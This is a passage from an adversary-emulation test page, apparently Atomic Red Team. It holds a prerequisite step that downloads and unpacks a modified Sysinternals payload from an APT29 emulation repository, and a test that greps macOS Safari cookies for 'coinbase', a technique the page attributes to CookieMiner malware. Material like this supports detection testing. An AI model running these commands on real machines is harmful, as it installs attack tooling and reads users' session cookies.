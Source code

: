 #### Cleanup Commands:
```powershell
Remove-Item "#{file_path}\Sysinternals" -Force -Recurse -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Modified Sysinternals must be located at #{file_path}
##### Check Prereq Commands:
```powershell
if (Test-Path "#{file_path}\SysInternals") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction ignore -Force | Out-Null
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
Invoke-WebRequest "https://github.com/mitre-attack/attack-arsenal/raw/66650cebd33b9a1e180f7b31261da1789cdceb66/adversary_emulation/APT29/CALDERA_DIY/evals/payloads/Modified-SysInternalsSuite.zip" -OutFile "#{file_path}\Modified-SysInternalsSuite.zip"
Expand-Archive "#{file_path}\Modified-SysInternalsSuite.zip" "#{file_path}\sysinternals" -Force
Remove-Item "#{file_path}\Modified-SysInternalsSuite.zip" -Force
```




<br/>
<br/>

## Atomic Test #2 - Search macOS Safari Cookies
This test uses `grep` to search a macOS Safari binaryCookies file for specified values. This was used by CookieMiner malware.

Upon successful execution, MacOS shell will cd to `~/Libraries/Cookies` and grep for `Cookies.binarycookies`.

**Supported Platforms:** macOS


**auto_generated_guid:** c1402f7b-67ca-43a8-b5f3-3143abedc01b





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| search_string | String to search Safari cookies to find. | string | coinbase|


#### Attack Commands: Run with `sh`! 


```sh
cd ~/Library/Cookies
grep -q "#{search_string}" "Cookies.binarycookies"
```
